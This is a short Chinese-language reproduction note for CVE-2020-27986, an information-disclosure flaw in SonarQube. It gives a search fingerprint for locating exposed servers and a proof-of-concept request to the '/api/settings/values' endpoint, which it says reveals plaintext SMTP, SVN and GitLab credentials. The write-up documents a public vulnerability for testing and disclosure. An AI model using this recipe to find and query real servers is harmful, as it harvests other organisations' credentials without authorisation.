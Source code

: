 # SonarQube values 信息泄露漏洞 CVE-2020-27986

# SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

```
SonarQube
```

## 网络测绘

```
app="sonarQube-代码管理"
```

## 漏洞复现

主页如下

![](/images/202202101933673.png)



漏洞POC



```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```



![](/images/202202101933276.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息



![](/images/202202101934123.png)



## 

